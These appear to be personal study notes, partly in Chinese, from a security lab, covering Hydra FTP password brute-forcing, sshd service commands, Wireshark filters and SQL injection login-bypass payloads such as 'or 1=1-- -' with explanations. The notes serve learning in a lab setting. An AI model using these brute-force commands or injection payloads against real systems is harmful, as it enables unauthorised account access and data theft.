 if ftp: `hydra -l user -P passlist.txt ftp://MACHINE_IP`

There are a lot of ways you can send a password to a server: GET request, POST request, AJAX, more

beautiful

---


## SSH
only Rocky linux, ssh is sshd

| command                       | Description                                             |
| :---------------------------- | :------------------------------------------------------ |
| `sudo systemctl status sshd`  | check where ssh server is running<br>                   |
| `sudo systemctl stop sshd`    | stop ssh service (but will start again after reboot     |
| `sudo systemctl disable sshd` | disable ssh entirely, so won't start again after reboot |


---
## Wireshark
* find a certain name: in the display filter: `frame contains "xxx"`
* insensitve case(大小写忽视)`frame matches "(?i)xxx"`

```
File Transfer Protocol (FTP)
USER pasquale\r\n
Request command: USER
Request arg: pasquale
```
**Request arg is where the input value is**



---
## SQL Injection

* `SELECT username, admin FROM users WHERE username="pasquale" AND password="" OR 1;` (when "1", means the first user)
* `SELECT username, admin FROM users WHERE username="pasquale" AND password="" OR admin="1";` (admin="1" means log in as admin)

`--` : is comment

1. Input Box Non-String
	foe example `where profileID=10` -> `where profieID=1 or 1=1-- -`
2. Input Box String
	same as above, 注意这里的已经是被单引号包围的。just they will be a string `where profileID='1' or '1'='1'-- -`
3. URL injection
	在url中写入`http://10.10.201.205:5000/sesqli3/login?profileID=-1' or 1=1-- -&password=a` 重点在于`-1' or 1=1-- -&password=a`
	因为通常情况下profileID是一个正数，使用-1是一定不会匹配到有效值的，也就等于终止这个字符串，让后面的SQL代码得以插入。这里的一个单引号是补齐sql里面的，拼接后就是`profileID='-1'`
	`&password=a`是让整个请求的参数列表完整
	